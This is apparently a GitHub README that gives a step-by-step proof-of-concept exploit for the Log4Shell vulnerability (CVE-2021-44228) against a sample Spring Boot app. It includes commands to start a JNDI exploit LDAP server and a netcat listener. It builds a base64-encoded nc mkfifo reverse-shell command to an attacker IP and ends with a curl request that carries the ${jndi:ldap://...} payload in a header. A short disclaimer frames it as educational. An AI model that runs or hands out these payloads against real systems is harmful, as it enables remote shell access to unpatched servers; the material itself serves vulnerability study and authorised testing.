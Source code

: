 # LOg4j

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## Proof-of-concept (POC)

#### Step 1 : Run Docker File which Include SpringBoot Vulnerable Application

```bash
cd log4shell-vulnerable-app
sudo docker run --rm -it -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
cd ..
```

#### Step 2 : Run the LDAP Server and Http Server

```bash
cd Log4shell_JNDIExploit
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <Your Attacking Machine IP>
```

#### Step 3 : Run the netcat Listner where you get reverse shell

```bash
nc -lvp <Port you want for Listner>
```

#### Step 4 Curl the Application with Malicious Code

```bash
[+] Step 1 : goto https://ssl-proxy.my-addr.org/myaddrproxy.php/https/www.revshells.com/
[+] Step 2 : Enter your Attacking Machine IP and Netcat Port which you have used before
[+] Step 3 : Select nc mkfifo in shell Type
[+] Step 4 : Copy the command which look like "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.119.21.67 1188 >/tmp/f"
[+] Step 5 : goto https://gchq.github.io/CyberChef/
[+] Step 6 : Select To Base64 and Enter "A-Za-z0-9-_" in Alphabet
[+] Step 7 : Paste the command you had copied from Reverse Shell Generator and Paste it in Input Box
[+] Step 8 : Copy the String from the Output box that is the Base64 encoding of the Malicious Command which will lead you to Remote shell
[+] Step 9 : Form a Curl request in this manner ⇩
    curl -H 'X-Api-Version: ${jndi:ldap://<Attacking Machine IP>:1389/Basic/Command/Base64/<Base64 Command you just copied Step 8>}' http://localhost:8080
```

## Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: https://log4shell.tools/).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

## Reference
#### All Credits goes to the Developer
[log4shell-vulnerable-app] by christophetd</br>
[Log4shell_JNDIExploit] re-uploaded by black9

[log4shell-vulnerable-app]: https://github.com/christophetd/log4shell-vulnerable-app
[log4shell_jndiexploit]: https://github.com/black9/Log4shell_JNDIExploit.git
